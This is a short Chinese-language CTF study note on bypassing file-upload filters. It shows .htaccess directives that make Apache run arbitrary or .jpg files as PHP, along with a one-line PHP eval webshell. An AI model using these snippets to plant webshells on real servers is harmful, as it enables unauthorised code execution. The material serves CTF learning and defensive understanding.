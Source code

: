 <center>上传漏洞杂项</center>

> 有一种奇怪的绕过，叫做bugku的题，`求getshell`。
>
> 通过后缀，MIME，和请求头中的content-type绕过





#### 1.	.htaccess

[文章](https://www.cnblogs.com/anweilx/p/12523582.html)

htaccess文件是Apache服务器中的一个配置文件，

它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能



可以通过上传此文件来定义apache解析规则，这样就可以把`.jpg`文件解析为`php`文件了。



有两种方法来利用此文件



1. 方法1

   在`.htaccess`文件中写入如下：

   ```
   # FileMatch 参数即为文件名的正则匹配
   <FilesMatch "ccess">
     SetHandler application/x-httpd-php
   </FilesMatch>
   ```

   > 这里的FilesMatch后面的参数是，文件的正则匹配



​	 木马文件`ccess`写入如下：

```
<?php @eval($POST['name']);?>
```





如此，便能上传不带`.php`后缀的文件。但是却能解析到`.php`文件了。这其实算是解析漏洞



2. 

   在`.htaccess`文件中写入如下：

   ```
   AddType application/x-httpd-php .jpg
   ```

   > 通过这样的方式，就能把jpg文件解析为`php`文件



